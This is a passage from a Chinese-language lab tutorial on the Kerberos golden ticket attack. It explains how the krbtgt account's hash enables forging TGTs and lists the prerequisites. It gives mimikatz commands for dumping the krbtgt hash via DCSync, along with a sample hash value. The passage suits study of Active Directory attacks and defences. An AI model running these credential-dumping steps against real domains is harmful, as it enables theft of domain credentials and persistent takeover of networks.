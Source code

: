 ## 八、实验：PTT（pass-the-ticket）黄金票据

### ①简介

KDC 的作⽤是⽣成任意⽤户的 TGT，那么问题来了，是什么条件能够让他⽣成任意⽤户的 TGT 呢？还得看 kerberos 认证的过程，在 windows 认证过程中，客户端将⾃⼰的信息发送给 KDC，然后 KDC 使⽤ `krbtgt ⽤户密码的 NTLM hash` 作为密钥进⾏加密，⽣成 TGT。

**一句话：TGT 是 KDC 使用 krbtgt 用户密码的 hash 作为密钥，加上客户端自己的信息生成的。**

那么如果获取到了 krbtgt 的密码 hash 值，是否就可以伪造任意 TGT？答案是肯定的。但因为 krbtgt 只有域控制器上才有，所以使⽤⻩⾦票据 (票据传递攻击) 意味着之前就拿到了域控制器的权限，所以⻩⾦票据可以理解为⼀个后⻔。

> Krbtgt ⽤户在域控创建完成后⾃动⽣成。
> 
> 只要 krbtgt 用户不更改密码，就可以使用黄金票据是实现任何用户的票据信息，注入到内存中。
> 
> 黄金票据在使用的过程需要同域控通信。

### ②基本条件

-   域名称、域 SID(去掉 rid)：通过 `whoami /user` 获取
-   要伪造 (目标) 的⽤户名：通过 `net user /domain` 等⽅法获取
-   krbtgt ⽤户的 hash：通过 mimikatz 等⽅法获取

### ③信息收集

mimkatz 获取 krbtgt hash（只有这一步才需要在域控上操作） => e798fdc7ba810c372ef7bffcdc8f2d13

由于 mimkatz 使用条件有点苛刻，且 mimkatz 软件问题，在命令行直接复制 mimkatz 内容可能无法成功或者直接到导致程序崩溃，那么这里可以通过生成 log 来解决。

```bash
mimikatz.exe
log
privilege::debug
lsadump::dcsync /user:krbtgt
```
